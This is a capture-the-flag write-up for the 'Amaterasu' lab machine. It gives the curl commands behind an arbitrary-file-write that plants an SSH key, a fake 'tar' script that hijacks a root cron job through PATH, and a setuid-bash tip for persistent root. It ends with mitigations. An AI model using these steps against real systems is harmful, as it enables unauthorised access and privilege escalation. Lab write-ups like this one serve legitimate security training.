


<!-- writeup-meta
title: Amaterasu
platform: Proving Grounds Play
os: Linux
difficulty: Easy
ip: 192.168.163.249
date: 2026-10-17
tags:
  - writeup
  - linux
  - flask
  - file-upload
  - path-traversal
  - cron
  - privesc
-->
# Amaterasu

> [!NOTE]
> **TL;DR** — A custom Flask "file server" API validates the *uploaded part's* extension but saves the file to a separate, attacker-controlled destination path — an arbitrary file write. That writes an SSH `authorized_keys` into a user's home for a foothold. A root cron job then calls `tar` by bare name with a user-writable directory on its `PATH`, giving a PATH hijack to root.
>
> **Path:** Flask upload API → extension-filter bypass + absolute-path write → SSH key into `alfredo` → cron `tar` PATH hijack → root

## 1. Recon

### 1.1 Nmap

Everything is on non-standard ports — note SSH relocated to 25022 and two separate web servers:

```shellsession
$ nmap -Av -sS -p- 192.168.163.249
PORT      STATE  SERVICE  VERSION
21/tcp    open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
25022/tcp open   ssh      OpenSSH 8.6 (protocol 2.0)
33414/tcp open   http     Werkzeug httpd 2.2.3 (Python 3.9.13)
|_http-title: 404 Not Found
40080/tcp open   http     Apache httpd 2.4.53 ((Fedora))
|_http-title: My test page
```

**Open ports / services:**

| Port | Service | Version | Notes |
|---|---|---|---|
| 21 | FTP | vsftpd 3.0.3 | Anonymous allowed, but directory listing times out |
| 25022 | SSH | OpenSSH 8.6 | Non-standard port |
| 33414 | HTTP | Werkzeug 2.2.3 (Flask) | Returns 404 at `/` — an API, not a site |
| 40080 | HTTP | Apache 2.4.53 (Fedora) | Default "My test page" |

> [!NOTE]
> **Reasoning:** Four services, all moved to odd ports. The FTP anon listing hangs and Apache is a stock page, so the Werkzeug/Flask server on 33414 is the real surface: a bare 404 at `/` means routes exist — I just have to find their names.

### 1.2 Web enumeration

**Port 40080 (Apache)** — the stock Fedora test page. feroxbuster only turns up `/images`, `/styles` and `/LICENSE`. Dead end.

**Port 33414 (Flask)** — feroxbuster finds two live endpoints:

```shellsession
$ feroxbuster --url http://192.168.163.249:33414
200      GET      http://192.168.163.249:33414/help
200      GET      http://192.168.163.249:33414/info
```

`/help` documents the entire API:



```
GET  /info                : General Info
GET  /help                : This listing
GET  /file-list?dir=/tmp  : List of the files
POST /file-upload         : Upload files
```

A file-upload plus a file-list endpoint — that's the attack surface.

## 2. Foothold

> [!IMPORTANT]
> **Vulnerability:** `/file-upload` validates the extension of the *uploaded file part* but writes to a separate, attacker-controlled `filename` field that is never sanitised — an arbitrary (absolute-path) file write.

### 2.1 Probing the upload endpoint

`GET /file-upload` returns 405, so it's POST-only. I felt out the required fields with curl, one error at a time:

```shellsession
$ curl http://192.168.163.249:33414/file-upload -X POST
{"message":"No file part in the request"}

$ curl http://192.168.163.249:33414/file-upload -F 'file=@test.txt'
{"message":"No filename part in the request"}

$ curl http://192.168.163.249:33414/file-upload -F 'file=@test.txt' -F 'filename=test.txt'
{"message":"File successfully uploaded"}
```

It wants two parts: the file itself (`file`) and a *separate* `filename` form field. `/file-list?dir=/tmp` confirms the upload landed in `/tmp`:



### 2.2 From file write to SSH key

Uploads land in `/tmp` and nothing executes them, so a PHP/webshell is useless here. Better angle: `/file-list` shows a `/home/alfredo` home directory — if I can control the *destination path*, I can drop an SSH key at `/home/alfredo/.ssh/authorized_keys`.

The first attempt is blocked by an extension filter:

```shellsession
$ curl http://192.168.163.249:33414/file-upload \
    -F 'file=@authorized_keys' \
    -F 'filename=/home/alfredo/.ssh/authorized_keys'
{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
```

But the filter checks the **`file` part's** name — not the destination. So I name the uploaded part `authorized_keys.txt` (passes the filter) while pointing `filename` at the real path:

```shellsession
$ ssh-keygen -t rsa -f ~/.ssh/id_rsa -N ''
$ cp ~/.ssh/id_rsa.pub authorized_keys.txt

$ curl http://192.168.163.249:33414/file-upload \
    -F 'file=@authorized_keys.txt' \
    -F 'filename=/home/alfredo/.ssh/authorized_keys'
{"message":"File successfully uploaded"}
```

> [!TIP]
> **Why the bypass works** — the app's source (it later leaked in `.bash_history`, base64-encoded) shows it plainly:
> ```python
> if file and allowed_file(file.filename):                            # validates file.filename
>     file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))  # saves to form['filename']
> ```
> The check runs on `file.filename` (`authorized_keys.txt` ✓) but the save path is the separate `filename` field — never validated, and never passed through the imported-but-unused `secure_filename()`. And since `os.path.join('/tmp', '/home/alfredo/.ssh/authorized_keys')` sees an **absolute** second argument, it throws away `/tmp` and writes straight to the absolute path.

### 2.3 SSH in

With my public key now in `alfredo`'s `authorized_keys`, SSH accepts the matching private key:

```shellsession
$ ssh alfredo@192.168.163.249 -p 25022
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$
```

- **Initial access as:** `alfredo`
- **local.txt:** `[REDACTED]`

## 3. Privilege Escalation

### 3.1 Enumeration — a root cron job

SUID binaries led nowhere, and `.bash_history` only held base64 blobs of the Flask app's own source (useful for understanding the upload bug, not for privesc). The real finding was in `/etc/crontab`:

```shellsession
[alfredo@fedora ~]$ cat /etc/crontab
*/1 * * * * root /usr/local/bin/backup-flask.sh

[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

Every minute, **as root**, the script prepends `/home/alfredo/restapi` — a directory I own — to `PATH`, then calls `tar` by bare name.

### 3.2 Exploitation — PATH hijack

Because `tar` is unqualified and my writable directory is first on `PATH`, a fake `tar` placed there runs as root instead of `/usr/bin/tar`:

```shellsession
[alfredo@fedora ~]$ cat > /home/alfredo/restapi/tar <<'EOF'
#!/bin/bash
cat /root/proof.txt > /home/alfredo/proof.txt
EOF
[alfredo@fedora ~]$ chmod +x /home/alfredo/restapi/tar
```

### 3.3 Root

Within a minute the cron fires and the payload runs as root, dropping the flag into my home:

```shellsession
[alfredo@fedora ~]$ cat proof.txt
[REDACTED]
```

- **Escalated to:** `root` (payload executed by root cron)
- **proof.txt:** `[REDACTED]`

> [!TIP]
> **Go for a shell, not just the flag.** Reading `proof.txt` proves root execution, but the same `tar` script is a better lever: `cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash` (then `/tmp/rootbash -p`), or drop an SSH key into `/root/.ssh/authorized_keys`. Persistent root beats a one-off file read.

## 4. Lessons Learned

- **A bare 404 on a web port is a lead, not a dead end.** Werkzeug answering 404 at `/` meant routed endpoints existed — `/help` then handed over the whole API.

- **Validate the value you actually use.** The upload checked one field's extension and wrote using another. When an app takes the file and its destination separately, test whether the destination is sanitised — here it wasn't, and `os.path.join` with an absolute path turned it into an arbitrary write.

- **File write ≠ RCE, but it's often still root.** No code execution on the upload, yet writing `authorized_keys` converted the arbitrary write straight into SSH access.

- **Cron + bare binary name + writable PATH = root.** The classic PATH hijack. Always read `/etc/crontab` and check whether any scripted command is called unqualified with a writable directory ahead of it on `PATH`.

- **New technique for my notes:** arbitrary-file-write → `authorized_keys`; cron `PATH` hijack on an unqualified `tar`.

## 5. Mitigation

- **Upload endpoint:** validate and sanitise the *destination* path, not the uploaded part's name — use `werkzeug.secure_filename()` (imported here but never called), force writes to stay under `UPLOAD_FOLDER`, and reject absolute paths and `..`.

- **Cron script PATH:** call binaries by absolute path (`/usr/bin/tar`) and never prepend a user-writable directory to `PATH` inside a root-run script.

- **Least privilege:** the backup job doesn't need root over a user-owned directory — run it as `alfredo`, or make `restapi` root-owned and non-writable by the user.

## References

- [GTFOBins — tar](https://gtfobins.github.io/gtfobins/tar/)
- [HackTricks — PATH hijacking (wildcards & cron)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
- [Werkzeug — secure_filename](https://werkzeug.palletsprojects.com/en/latest/utils/#werkzeug.utils.secure_filename)
